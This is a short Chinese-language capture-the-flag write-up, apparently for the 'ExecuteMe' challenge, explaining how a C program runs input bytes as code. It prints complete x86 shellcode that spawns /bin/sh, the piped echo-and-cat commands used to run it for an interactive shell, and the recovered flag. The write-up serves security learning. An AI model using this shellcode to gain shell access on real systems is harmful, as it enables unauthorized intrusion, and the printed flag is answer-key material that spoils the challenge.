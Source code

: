 # ExecuteMe
這是一段會執行任何輸入字串的程式，看到程式碼：
```c
typedef void (*function_ptr)();
...
((function_ptr)buf)();
```
查了function pointer的用法：
 * 每個function包含code和指到code的function pointer
 * 而上面的程式碼是在告訴compiler，function_ptr的code從buf開始，所以compiler會把function pointer指到buf的開始位址
 * 但要注意到function指到的位置必須是'''可執行的assembly byte code'''

所以，能打開shell的assembly code必須符合以下條件：
 1. '''不能包含\x0'''，否則copy function會當作結束字元
 2. '''執行輸入的code'''：overwrite RET(相對位置：4(%esp))
 3. '''猜中RET'''：插入nop來增加成功率

想自己寫一個開啟shell的shellcode，但還沒成功，所以先用網路上其他人做的：
`\xeb\x1a\x5e\x31\xc0\x88\x46\x07\x8d\x1e\x89\x5e\x08\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xe1\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68`
 1. 放入程式執行，因為是hex所以必須轉成字元，再用pipe傳給./execute
```bash
pico62895@shell:/home/execute$ (echo -e '\xeb\x1a\x5e\x31\xc0\x88\x46\x07\x8d\x1e\x89\x5e\x08\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xe1\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68') | ./execute
pico62895@shell:/home/execute$
```
 成功執行，但在我們能輸入其他指令前就結束了
 2. 所以使用cat讓他開著，並且會把結果印到terminal上：
```bash
pico62895@shell:/home/execute$ (echo -e '\xeb\x1a\x5e\x31\xc0\x88\x46\x07\x8d\x1e\x89\x5e\x08\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xe1\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68'; cat) | ./execute
ls
Makefile   core       execute	 execute.c  flag.txt
cat flag.txt
shellcode_is_kinda_cool
```

成功取得flag。
